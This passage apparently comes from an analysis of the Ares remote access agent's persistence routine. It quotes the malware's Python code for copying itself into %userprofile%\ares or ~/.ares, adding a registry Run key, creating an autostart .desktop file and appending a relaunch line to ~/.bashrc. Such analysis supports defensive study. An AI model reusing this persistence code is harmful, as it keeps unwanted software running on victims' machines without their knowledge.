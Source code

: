     - Create the a copy of the running agent in the following directory: `%userprofile%\ares\`

        ```python
        agent_path = os.path.join(persist_dir, os.path.basename(sys.executable))
        shutil.copyfile(sys.executable, agent_path)
        ```

    - Execute the `reg` command to persiste via the registry by creating the value `ares`

        ```python
        cmd = "reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /f /v ares /t REG_SZ /d \"%s\"" % agent_path
        subprocess.Popen(cmd, shell=True)
        ```

  - LINUX:
    - On Linux the agent creates the following directory: `~/.ares`

        ```python
        .....
        if platform.system() == 'Linux':
            persist_dir = self.expand_path('~/.ares')
            if not os.path.exists(persist_dir):
                os.makedirs(persist_dir)
        .....
        ```

    - Create a copy of the running agent in the following directory: `~/.ares/`

        ```python
        agent_path = os.path.join(persist_dir, os.path.basename(sys.executable))
        shutil.copyfile(sys.executable, agent_path)
        ```

    - Execute `chmod +x` on the newly created file

        ```python
        os.system('chmod +x ' + agent_path)
        ```

    - Create the following file and directory: `~/.config/autostart/ares.desktop`

        ```python
        .....
        if os.path.exists(self.expand_path("~/.config/autostart/")):
            desktop_entry = "[Desktop Entry]\nVersion=1.0\nType=Application\nName=Ares\nExec=%s\n" % agent_path
            with open(self.expand_path('~/.config/autostart/ares.desktop'), 'w') as f:
                f.write(desktop_entry)
        .....
        ```

    - Modified the content of `~/.bashrc`

        ```python
        with open(self.expand_path("~/.bashrc"), "a") as f:
            f.write("\n(if [ $(ps aux|grep " + os.path.basename(sys.executable) + "|wc -l) -lt 2 ]; then " + agent_path + ";fi&)\n")
        ```
